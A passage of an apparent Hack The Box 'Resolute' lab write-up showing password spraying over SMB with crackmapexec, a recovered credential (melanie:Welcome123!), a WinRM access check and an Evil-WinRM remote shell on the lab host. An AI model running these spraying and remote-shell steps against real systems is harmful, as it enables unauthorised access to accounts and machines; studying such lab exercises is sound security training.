

# 15 - LDAP


# LDAP description


Based on the description, I think they assign the same password to every new user.


# Matching password
```bash
┌─[user@parrot]─[10.10.14.6]─[~/htb/resolute]
└──╼ $ cme smb 10.10.10.169 -u  user.lst  -p pass.lst 
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
...
...
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
```

* melanie:Welcome123!


# Melanie has winrm access
```bash
┌─[user@parrot]─[10.10.14.6]─[~/htb/resolute]
└──╼ $ cme winrm 10.10.10.169 -u  'melanie'  -p pass.lst 
WINRM       10.10.10.169    5985   RESOLUTE         [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:megabank.local)
WINRM       10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
```


# Shell
```powershell
┌─[user@parrot]─[10.10.14.6]─[~/htb/resolute]
└──╼ $ evil-winrm  -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents> 
```